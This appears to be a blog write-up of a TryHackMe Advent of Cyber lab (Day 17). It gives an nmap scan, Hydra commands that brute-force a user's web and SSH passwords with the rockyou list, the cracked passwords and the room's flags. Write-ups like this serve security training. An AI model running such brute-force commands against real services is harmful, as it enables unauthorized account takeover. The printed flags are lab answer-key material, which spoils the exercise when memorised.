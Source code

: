 ```yaml
---
title: "Advent of Cyber Day 17 Hydra-ha-ha-haa"
author: Ludovic COULON
date: 2020-05-08
hero: ./images/hero.png
excerpt: "Advent of Cyber Day 17 Hydra-ha-ha-haa"
secret: true
---
```


[TryHackMe | Advent of Cyber](https://tryhackme.com/room/25daysofchristmas)

You suspect Elf Molly is communicating with the Christmas Monster. Compromise her accounts by brute forcing them!

Use Hydra to brute force Elf Molly's password. Use the rockyou.txt password list, which can be found [here](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt).

Supporting materials can be found [here](https://blog.tryhackme.com/hydra/).

**This machine will take between 3-4 minutes to boot.**

### Setup

```bash
nmap -A -vv 10.10.19.144
```

```bash
22/tcp open ssh syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 87:da:af:c1:ff:c5:03:11:54:80:41:d4:82:8a:99:d7 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDHO4ktM9/27P2QGFraBKPJS3H+OXCHRWwn2XlNF47So47uW/XhvJOBdKpGSGfd5xsBLUerN7O3YCbwYmvggkas6D4GN0lrtyJacdk1wGViCBZwVd/j1lf3EVmRpO8ZMLOgEo9ew8hkG5P6S+P4xnW8FG7aEcRO6EF1Mq64r+GG2VK/wE6IwbPBs6ILG/SC4FGPy1rSNvDNRPgUouMeQqFjTXNEX0cWv8JFsfNogreS05wAOzjyne3d2Ow7RyvSm10zP9GWUXRYmkpspSSGruAZ8STLH8G0l3Z1kaQSNl5tqtMAhONnsuMh18MZCZxOpUfiD7cT20/ZEF8lD9eYSV/h
|   256 2d:04:f7:b2:22:74:9a:32:a6:66:f8:50:0c:5c:c5:5a (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHB+zsySVDiAxyh1OOC6IbA0FryCdBCXKOwBoqoLDkHC9+RA+8rwI4TVTrMuFsw77IKz67tgN56q8fO4BhVBMEU=
|   256 87:2c:2e:a9:2c:28:a2:6c:b5:96:ff:58:cb:15:45:b6 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEW/CLFOcCBY09DHMT3eByXDXR1IysHYF2ecZVVf9PEt

80/tcp open http syn-ack Node.js Express framework
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-title: Christmas Challenge
|_Requested resource was /login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

<div className="Image__Medium">
  <img src="https://imgur.com/6d5GxKt.png" alt="blog_image" />
</div>

[Hydra - Brute Force HTTPs](https://redteamtutorials.com/2018/10/25/hydra-brute-force-https/)

```bash
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.19.144 http-post-form "/login:username=^USER^&password=^PASS^&Login=Login:Your username or password is incorrect." -v
```

```bash
[80][http-post-form] host: 10.10.19.144   login: "molly"   password: "joyness1994"
```

### #1 Use Hydra to bruteforce molly's web password. What is flag 1? (The flag is mistyped, its THM, not TMH)

<div className="Image__Medium">
  <img src="https://imgur.com/yynj6n6.png" alt="blog_image" />
</div>

```bash
"THM{2673a7dd116de68e85c48ec0b1f2612e}"
```

### #2 Use Hydra to bruteforce molly's SSH password. What is flag 2?

```bash
kali@kali:~$ hydra -l molly -P /usr/share/wordlists/rockyou.txt ssh://10.10.19.144

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-08 18:32:02
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.19.144:22/

[22][ssh] host: 10.10.19.144   login: "molly"   password: "butterfly"
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-08 18:32:10
```

```bash
ssh molly@10.10.19.144
password: "butterfly"
```

```bash
molly@ip-10-10-19-144:~$ ls
flag2.txt
molly@ip-10-10-19-144:~$ cat flag2.txt
"THM{c8eeb0468febbadea859baeb33b2541b}"
```
